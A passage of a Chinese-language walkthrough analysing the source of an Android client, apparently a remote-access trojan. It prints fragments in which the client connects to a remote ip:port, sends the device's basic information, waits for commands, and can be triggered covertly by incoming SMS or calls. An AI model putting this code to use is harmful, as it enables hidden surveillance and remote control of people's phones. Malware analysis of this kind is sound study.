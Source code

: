 ```java
			conn = new Connection(ip,port,this);//On se connecte et on lance les threads
			
			if(waitTrigger) { //On attends un evenement pour se connecter au serveur
			  	//On ne fait rien
				registerSMSAndCall();
			}
```

先从intent参数中提取action（还记得前面开机启动和主界面类中的setAction方法吗？），然后在日志里打印此时服务是被哪个向量触发的，这样写应该是为了方便调试，比较容易找到出现问题的模块。后面是从intent中抽取ip和port（如果有的话），判断服务是否已经运行了，如果没有则创建网络连接变化监听（这是为了在切换网络连接的时候，可以重新建立监听）。在后面，置inRunning为true，创建连接，如果在配置中设定了是否开启来电或短信提醒触发Client启动，则使用registerSMSAndCall方法，注册短信监听和来电监听（关于这两个监听触发的代码，我们留着后面再分析，这次我们先重点看Client的逻辑）。registerSMSAndCall代码如下：

```java
	public void registerSMSAndCall() {
        IntentFilter filter = new IntentFilter();
        filter.addAction("android.provider.Telephony.SMS_RECEIVED"); //On enregistre un broadcast receiver sur la reception de SMS
        registerReceiver(SMSreceiver, filter);
        IntentFilter filter2 = new IntentFilter();
        filter2.addAction("android.intent.action.PHONE_STATE");//TelephonyManager.ACTION_PHONE_STATE_CHANGED); //On enregistre un broadcast receiver sur la reception de SMS
        registerReceiver(Callreceiver, filter2);
	}

```

下面我们再来看witTrigger设置为false时的处理代码：

```java
else {
				Log.i(TAG,"Try to connect to "+ip+":"+port);
				if(conn.connect()) {
					packet = new CommandPacket();
					readthread = new Thread(new Runnable() { public void run() { waitInstruction(); } });
					readthread.start(); //On commence vraiment a écouter
					CommandPacket pack = new CommandPacket(Protocol.CONNECT, 0, infos.getBasicInfos());
					handleData(0,pack.build());					
					//gps = new GPSListener(this, LocationManager.NETWORK_PROVIDER,(short)4); //!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
					isListening = true;
					if(waitTrigger) {
						unregisterReceiver(SMSreceiver); //On désenregistre SMS et Call pour éviter tout appel inutile
						unregisterReceiver(Callreceiver);
						waitTrigger = false;
					}
				}
				else {
					if(isConnected) { //On programme le AlarmListener car y a un probleme coté serveur
						resetConnectionAttempts();
						reconnectionAttempts();
					}
					else { //On attend l'update du ConnectivityListener pour se débloquer 
						Log.w(TAG,"Not Connected wait a Network update");
					}
				}
```
